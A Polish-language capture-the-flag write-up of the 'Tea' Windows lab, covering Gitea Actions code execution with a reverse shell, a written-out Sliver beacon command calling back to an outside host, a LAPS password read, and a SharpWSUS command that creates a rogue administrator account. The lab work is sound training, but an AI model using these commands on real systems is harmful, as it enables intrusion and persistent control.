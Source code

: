 # Tea
Windows, Medium, created by **kozie**

![tea_slide](https://github.com/user-attachments/assets/1d64456c-c18d-4db6-baed-de06eb17eed7)

```
Nmap scan report for 10.10.162.37
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-22 12:22:54Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: tea.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tea.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
51834/tcp open  msrpc         Microsoft Windows RPC
62537/tcp open  msrpc         Microsoft Windows RPC
64037/tcp open  msrpc         Microsoft Windows RPC
64039/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
64040/tcp open  msrpc         Microsoft Windows RPC
64051/tcp open  msrpc         Microsoft Windows RPC


Nmap scan report for 10.10.162.38
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
3000/tcp  open  ppp?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=SRV.tea.vl
| Issuer: commonName=SRV.tea.vl
8530/tcp  open  http          Microsoft IIS httpd 10.0
8531/tcp  open  unknown
49670/tcp open  msrpc         Microsoft Windows RPC

```

nice z smb null i guest.
nic z ldapa.
na 3000 mamy gitea.

![{3FB20AF9-7422-4ED7-A495-A7EE71B75837}](https://github.com/user-attachments/assets/6e401bfa-8b32-447b-b04f-68d7cea4907f)

robimy usera.

![{0288ED8E-C6EA-4421-B4D8-4BBFB6D5B755}](https://github.com/user-attachments/assets/eec0a41f-3cdd-40c8-b1f3-aa6c343444ea)

wygląda na to, że to będzie rce przez gitea runners

zrobię krok po kroku.

Create a new repo

![{5621793F-60A6-491C-AD2E-689A5DCAAD4D}](https://github.com/user-attachments/assets/bec20240-5cf4-4067-a792-5ef65a3fc02e)

![{91C18823-F149-42AF-B21B-4F6E9F5DD289}](https://github.com/user-attachments/assets/4a0da2c0-e8ed-4895-904e-35ec552e6a74)

stworzyło się.

w settings klikamy `Enable Repository actions`

![{F32DCB5D-D9EE-49B6-95F8-D7C85BC29F7B}](https://github.com/user-attachments/assets/c739d176-017f-4fef-8920-8bcc822caec7)

teraz troche `docsów` [https://blog.gitea.com/feature-preview-gitea-actions/](https://blog.gitea.com/feature-preview-gitea-actions/)

![{C20DE314-D141-4A81-ACF5-0FC79EFD4464}](https://github.com/user-attachments/assets/072acc29-2b3d-4de2-88fe-815a87bf1cb6)

o i mamy nasz payload (ale pamiętamy, że to windows)

generuję sobie revshella w powershellu

![{A377889B-7A21-4443-8C15-8E00B8175368}](https://github.com/user-attachments/assets/2e3570b5-8e4b-4804-8a0f-78231837364d)

![{E813ACD1-40F6-4CEE-90B8-8D9462FD5EAF}](https://github.com/user-attachments/assets/52ae54a0-790c-4b9d-ab9f-d12ae93a5aaf)

mniej więcej coś takiego. Teraz commit changes

![{47B8C10F-CE93-4202-9B8D-19F536B1DFC9}](https://github.com/user-attachments/assets/eff71693-f33f-4a96-acd1-72d11285d718)

i mmay shella po ~10sek

![{3883BA25-4D3C-4BEA-8CFD-C3E65510C34D}](https://github.com/user-attachments/assets/6e2ccf27-2e9d-41c5-8cbb-360fd85d0f75)

już myślałem, że fajny shell będzie, ale.. port 22 nie jest otwarty :/

![{09F838FD-C64B-44D6-8B65-07A38A900AEA}](https://github.com/user-attachments/assets/fb31869c-62c6-411a-916b-84c7de7c7c10)

ale chociaż flagę dali

![{091F78EF-5662-467D-9831-0509621C3DAA}](https://github.com/user-attachments/assets/6fa51966-36ad-4e1b-8cc2-42b6ae6fa748)

te grupki ciekawe całkiem.

![{3B3A3B61-C126-4686-9596-358494B15A85}](https://github.com/user-attachments/assets/31b5559e-bdb3-4f62-9e5f-894aca334c70)

psexec też ciekawe, że widzimy tutaj (ale laps ciekawsze)

![{39A58CE0-01D4-4C4D-8D58-6C40CA2B1FC7}](https://github.com/user-attachments/assets/2e955980-5b28-4f79-9f03-05da1943dc74)

z ciekawosci wziąłem hash i sprawdzam czy hasło nie wystęuje w rockyou
- nie występuje

Ostatnio trochę mocniej w redteam idę i bawię się sliverem więc tutaj użyjemy slivera zamiast ładować binarki na maszynkę.
```
generate beacon --seconds 5 --jitter 3 --os windows --arch amd64 --format EXECUTABLE --http 10.8.4.124:443 --name tea --save ./beacon.exe -G 
```
(to leci kilka minut. Jak chcesz szybciej to daj sobie --skip-symbols)

![{1FEA1625-9874-4853-87F3-60A89544B0D9}](https://github.com/user-attachments/assets/3ba8bf74-1525-429e-8b81-1037052d6e5b)

![{A1EAA0A4-A09D-4AAA-84C8-5B66F214A021}](https://github.com/user-attachments/assets/1e53e662-f6a1-4a14-b3df-95ac0d67dda6)

i mamy to

![{AEDBCEB7-A851-45D5-A9DA-01C875DA0839}](https://github.com/user-attachments/assets/3f782e27-9a0e-4076-9b32-bca914b1ec7d)

`sharp-hound-4 -i -s -t 120 -- -c all`

![{D5E53598-B2B1-43BB-B647-FC35C9916F4B}](https://github.com/user-attachments/assets/5a8a9f8e-b827-4ff5-b2fc-4614f647fdcb)

![{65326E1F-3156-41F5-9D57-1115049B6BA8}](https://github.com/user-attachments/assets/b52a7459-5007-49bf-8163-6a7b95650488)

chyba mam za nowego bloodhound :/
- Ale to oleję. Wiemy, że mamy coś z lapsem więc spróbuję zobaczyć czy mamy uprawnienia do czytania hasła z LAPS po prostu z powershella (bloodhound nie robi jakiejś magi. To tylko zbiór komend xd)

![{938D800B-51E0-45DD-AFE0-7B9A99B64E3F}](https://github.com/user-attachments/assets/5f2771c8-f223-48b8-a121-892b666ccf4b)

Możemy.

![asplaintext](https://github.com/user-attachments/assets/c73cb875-b51a-47bc-8e12-359a10129e0d)

- próbuję uruchomić drugą sesję slivera jako administrator, ale... składnia mi się działa.
- Poszedłem na RDP :D

![{84EFACF5-2B7E-4442-B20E-247C471D14F2}](https://github.com/user-attachments/assets/1f6c156a-bd55-49c1-8a66-a8ea7a30f563)


![{F3ABBF20-62F8-49A2-BFEE-BD850CA5CA3C}](https://github.com/user-attachments/assets/de7b383d-335f-41e0-b17e-61f310c7b756)

no to została nam jedna flaga
- szukając eskalacji możemy wrócic to tego co widzieliśmy.

![{044CA1EE-36B1-49E7-AC3B-76DAB67A96DB}](https://github.com/user-attachments/assets/c2ceb26f-b751-4409-bd7e-e41f037f6011)

![{CB905CF4-A02E-429A-87F8-220C90BA32A8}](https://github.com/user-attachments/assets/fe883697-a3e7-45f4-9ac8-e11813a9313d)

![{74B36F89-7BDA-47B8-8CFA-234150C6B61B}](https://github.com/user-attachments/assets/8d1c5797-7a0d-478f-8558-e1eb11b36102)


wygląda jakby pasowało :D

o to też wygląda jakby pasowało `https://github.com/techspence/SharpWSUS.git`

![{F9F6FFEF-5D9D-4BB8-81FE-7E55CB146C0F}](https://github.com/user-attachments/assets/62797a22-a4b4-483a-a53c-5b4466d738a1)

pobrałem sobie

![{E7DCFFB1-2E15-45C3-B112-506A6EDD295F}](https://github.com/user-attachments/assets/c3261892-4724-4fc5-8fcb-6e305e4fa03c)

```
sharpwsus.exe create /payload:"C:\_install\PSExec64.exe" /args:"-accepteula -s -d cmd.exe /c \\"net user Hollow Password1! add && net localgroup administrators Hollow /add\\""
```

![{89AD566F-ACFE-4BDF-AA01-D1CB182F9052}](https://github.com/user-attachments/assets/bd6f2c71-39cf-4740-a1bc-94dc3eca1b00)


![{18E78348-719E-4566-ACC6-B94B17D963E7}](https://github.com/user-attachments/assets/75305924-6f30-4eb5-b658-dd81a52bf56b)

![{5C7AF4FE-AAB0-4D85-A78F-A2613A4BAF09}](https://github.com/user-attachments/assets/416febc8-7024-40b4-ad5f-ec3cbd8e2550)

jakoś po minucie mamy tutaj update

![{58FC3C4E-74C6-4AF5-8BE1-6D478D1D8952}](https://github.com/user-attachments/assets/224c3ea8-9126-4bb8-8b25-17c4effca655)

po kolejnych 3 minutach nie widzimy naszego usera :(

- poczekałem do 10 i znalazłem literówkę w payloadzie.

```
sharpwsus.exe create /payload:"C:\_install\PSExec64.exe" /args:"-accepteula -s -d cmd.exe /c \\"net user Hollow Password1! /add && net localgroup administrators Hollow /add\\""
```

![{C5DD6CC9-8BB9-43C6-A04C-5609DD04F5A6}](https://github.com/user-attachments/assets/2dcd0d43-e509-4b13-9ade-1501b61ba896)

teraz mamy 1/4, a nie 1/3. Zawsze jakaś zmiana xD


